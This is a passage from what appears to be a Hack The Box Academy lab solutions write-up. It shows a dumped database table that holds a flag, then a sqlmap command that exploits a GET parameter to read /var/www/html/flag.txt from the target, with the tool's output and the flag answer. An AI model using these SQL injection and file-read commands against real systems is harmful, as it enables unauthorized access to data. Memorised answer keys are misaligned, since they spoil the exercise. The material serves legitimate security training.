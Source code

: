 ```
Table: flag11
[1 entry]
+----+----------------------------+
| id | content                    |
+----+----------------------------+
| 1  | HTB{5p3c14l_ch4r5_n0_m0r3} |
+----+----------------------------+

<SNIP>
```

Answer: `HTB{5p3c14l_ch4r5_n0_m0r3}`

# OS Exploitation

## Question 1

### "Try to use SQLMap to read the file "/var/www/html/flag.txt"."

Students first need to navigate to the website's root page of the spawned target to notice that they need to exploit the `GET` parameter `id`:

![[HTB Solutions/CPTS/z. images/5d733952a3455337e2832127c652a52d_MD5.jpg]]

Thus, the `sqlmap` command becomes:

Code: shell

```shell
sqlmap -u "http://STMIP:STMPO?id=1" --file-read "/var/www/html/flag.txt" --batch
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sqlmap -u 'http://138.68.156.57:31020?id=1' --file-read "/var/www/html/flag.txt" --batch

        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.6.8#stable}
|_ -| . ["]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

<SNIP>

[19:58:10] [INFO] the local file '/home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt' and the remote file '/var/www/html/flag.txt' have the same size (31 B)
files saved to [1]:
[*] /home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57/files/_var_www_html_flag.txt (same file)

[19:58:10] [INFO] fetched data logged to text files under '/home/htb-ac413848/.local/share/sqlmap/output/138.68.156.57'
```
